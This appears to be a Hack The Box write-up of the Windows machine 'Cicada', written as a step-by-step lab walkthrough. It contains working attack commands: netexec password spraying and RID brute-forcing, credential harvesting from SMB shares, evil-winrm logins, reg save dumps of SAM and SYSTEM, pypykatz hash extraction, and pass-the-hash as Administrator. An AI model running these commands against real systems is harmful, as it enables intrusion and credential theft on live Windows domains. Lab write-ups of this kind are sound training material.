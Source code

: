 
[[HTB]] : [[Machines]]

**IP:** 10.10.11.35  
**Date:** 08/01/2025

---

### **Enumeration**

#### **[[Nmap]] Scan Results**

- **OS:** Windows Server 2022
- **Open Ports:**
    - LDAP
    - Kerberos

#### **Nessus Scan Results**

- SMB service detected.

---

### **SMB Enumeration**

#### **Accessing SMB Shares**

- Discovered `HR` share accessible without a password.
- Found a notice with a default password:
    
    ```
    Welcome to Cicada Corp! We're thrilled to have you join our team.
    As part of our security protocols, it's essential that you change your default password to something unique and secure.
    
    Your default password is: Cicada$M6Corpb*@Lp#nZp!8
    ```
    

---

### **Initial Access Attempt**

#### **Testing SMB**

- Tested access using `netexec`:
    
    ```bash
    netexec smb 10.10.11.35
    ```
    

#### **Bruteforcing Usernames with Default Password**

- Attempted to brute-force common usernames with the found password:
    
    ```bash
    netexec smb 10.10.11.35 -u /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    
- Only guest access was obtained.

#### **RID Brute-forcing**

Used RID brute-forcing to enumerate valid users:

```bash
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

**Results:**

```plaintext
CICADA\Administrator (SidTypeUser)  
CICADA\Guest (SidTypeUser)  
CICADA\john.smoulder (SidTypeUser)  
CICADA\sarah.dantelia (SidTypeUser)  
CICADA\michael.wrightson (SidTypeUser)  
CICADA\david.orelious (SidTypeUser)  
CICADA\emily.oscars (SidTypeUser)  
```

---

### **Exploitation**

#### **Bruteforcing Valid Users**

- Stored the usernames in a `users.txt` file:
    
    ```plaintext
    Administrator  
    Guest  
    john.smoulder  
    sarah.dantelia  
    michael.wrightson  
    david.orelious  
    emily.oscars  
    ```
    
- Used the default password to brute-force the valid users:
    
    ```bash
    netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    

**Result:**  
`michael.wrightson` did not change his password.

#### **Enumerating Additional Users**

- Using `michael.wrightson`'s credentials:
    
    ```bash
    netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
    ```
    

**Result:**  
Discovered `david.orelious` and his password:

```plaintext
Password: aRt$Lp#7t*VQ!3
```

#### **Accessing SMB Shares**

Using `david.orelious`'s credentials to enumerate shares:

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

- Found the `DEV` share containing a **Backup Script** with `emily.oscars`' credentials:
    
    ```plaintext
    $username = "emily.oscars"
    $password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
    ```
    

#### **High-Privilege User: Emily Oscars**

- Checked `emily.oscars`' privileges:
    
    ```bash
    smbmap -H 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
    ```
    
- Verified access to `ADMIN$`.

---

### **Privilege Escalation**

#### **Gaining Reverse Shell**

Using `evil-winrm` to gain a reverse shell:

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

- **User Flag:**
    
    ```plaintext
    fd9eccbf79f5ca488f8f3bda29072e3a
    ```
    

#### **Checking Privileges**

Executed `whoami /priv`:

```plaintext
SeBackupPrivilege             Back up files and directories  Enabled  
SeRestorePrivilege            Restore files and directories  Enabled  
```

**Exploitation:**  
`SeBackupPrivilege` allows reading sensitive files.

---

### **Dumping SAM & SYSTEM Files**

#### **Steps:**

1. Navigate to the C drive and create a temporary folder:
    
    ```bash
    mkdir Temp
    ```
    
2. Save the SAM and SYSTEM files:
    
    ```bash
    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system
    ```
    
3. Download the files using `evil-winrm`:
    
    ```bash
    download sam
    download system
    ```
    

---

### **Extracting Hashes**

Used `pypykatz` to extract user hashes:

```bash
pypykatz registry --sam sam system
```

**Results:**

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```

---

### **Root Access**

Used the NTLM hash to gain access as `Administrator`:

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

- **Root Flag:**
    
    ```plaintext
    d3d5f0aba09f6a5e7e52e9dfc57e3490
    ```
    

---

### **Summary:**

1. **Enumeration:** Discovered SMB shares and default credentials.
2. **Exploitation:** Used `netexec` and SMB enumeration to find valid credentials.
3. **Privilege Escalation:** Leveraged `SeBackupPrivilege` to dump sensitive files and extract hashes.
4. **Root Access:** Used NTLM hash to access the system as `Administrator`.
